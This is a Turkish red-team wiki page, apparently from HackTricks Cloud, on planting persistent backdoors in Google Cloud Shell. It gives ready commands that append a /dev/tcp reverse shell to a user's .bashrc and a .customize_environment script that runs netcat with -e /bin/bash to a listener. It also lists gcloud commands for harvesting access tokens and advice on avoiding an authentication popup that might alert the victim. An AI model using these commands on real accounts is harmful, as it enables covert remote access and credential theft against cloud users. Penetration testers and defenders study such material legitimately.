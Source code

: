 # GCP - Cloud Shell Kalıcılığı

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

- Şirketinizin **HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
- **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)'a PR gönderin
*
*
*
* github depoları.

</details>

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kalıcı Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/), tarayıcınızdan doğrudan bulut kaynaklarınıza komut satırı erişimi sağlar ve herhangi bir ek maliyet olmadan.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsol, saldırganlar için bazı ilginç yeteneklere sahiptir:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tam yetkilendirilmiş bir Cloud Shell örneğine erişebilir (Hizmet Hesapları, org'un Sahipleri bile olabilir).
2. Söz konusu örnek, **en az 120 gün boyunca ana dizinini koruyacaktır** eğer hiçbir etkinlik olmazsa.
3. Bu örneğin etkinliğini izlemek için **bir organizasyonun yetenekleri yoktur**.

Bu temelde, bir saldırgan kullanıcının ana dizinine bir arka kapı yerleştirebilir ve kullanıcı en az 120 günde bir GC Shell'e bağlandığı sürece arka kapı hayatta kalacak ve saldırgan her çalıştığında bir kabuk alacaktır sadece şunu yaparak:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde varsa her zaman **çalıştırılacak** olan **`.customize_environment`** adlı başka bir dosya bulunmaktadır. (Önceki teknikte olduğu gibi) Kullanıcı **bulut kabuğuna** eriştiğinde kalıcılığı sürdürmek için önceki arka kapıyı veya aşağıdakine benzer birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Önemli not:** İlk kez kimlik doğrulaması gerektiren bir işlem gerçekleştirildiğinde, kullanıcının tarayıcısında bir kimlik doğrulama penceresi belirir. Bu pencerenin kabul edilmesi gerekmektedir. Beklenmeyen bir pencere belirirse, şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut kabuğundan (`cloud shell`) (saldırgan olarak) `gcloud projects list` komutunu çalıştırdığınızda tarayıcının kullanıcı oturumunda görünen kimlik doğrulama penceresidir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut kabuğunu aktif olarak kullandıysa, kimlik doğrulama penceresi belirmeyecek ve kullanıcının **token'larını toplayabilirsiniz**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temel olarak, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarını eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud Shell'in IP'sini size söyler)

Ancak daha fazla bilgiyi [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinde bulabilirsiniz.

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
